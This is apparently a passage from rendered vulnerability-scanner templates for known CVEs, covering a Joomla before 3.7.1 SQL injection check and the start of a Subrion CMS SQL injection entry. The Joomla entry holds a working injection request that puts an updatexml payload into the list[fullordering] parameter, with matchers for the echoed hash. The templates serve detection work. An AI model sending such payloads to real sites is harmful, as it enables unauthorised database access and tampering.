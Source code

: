 ### Matchers

**Type - word**

- part - body
- words
  1. {{md5({{num}})}}

**Type - status**

- status
  1. 200

---

# Joomla! \<3.7.1 - SQL Injection

## Description

- Joomla! before 3.7.1 contains a SQL injection vulnerability. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - cve,cve2017,joomla,sqli

## Requests

- Method - GET

### URL

- {{BaseURL}}/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,md5({{num}})),1)

### Matchers

**Type - word**

- part - body
- words
  1. {{md5(num)}}

---

# Subrion CMS \<4.1.5.10 - SQL Injection

## Description

- Subrion CMS before 4.1.5.10 has a SQL injection vulnerability in /front/search.php via the $\_GET array.
- severity - critical
- tags - cve,cve2017,sqli,subrion
